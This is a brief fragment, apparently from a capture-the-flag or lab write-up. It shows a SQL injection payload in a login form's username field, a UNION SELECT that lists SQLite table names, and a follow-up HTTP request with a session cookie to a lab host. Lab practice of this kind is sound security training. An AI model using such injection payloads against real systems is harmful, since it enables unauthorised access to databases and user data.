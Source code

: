 ```http

username=tgihf'+UNION+SELECT+'Tables',name+FROM+sqlite_master+WHERE+type='table'+AND+name+NOT+LIKE+'sqlite_%'--&password=pass
```

```http
GET /challenge4/notes HTTP/1.1
Host: 10.10.223.194:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.223.194:5000/challenge4/home
DNT: 1
Connection: close
Cookie: session=.eJxdyDEOgCAMBdCrkC4sLCa6cBlS8YsktaLAYIx3d_eN76G4sQg0YQy94gp5IT9M7v_KO8hTS3lbremaDzUVgtiMbTwLqnVKjnbOyqWEs-O6ya8sFe8HRoskVw.YQ04Jg.u9KW6G9V8uKh3TnV7qMZ36eDMJE
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Cache-Control: max-age=0
```
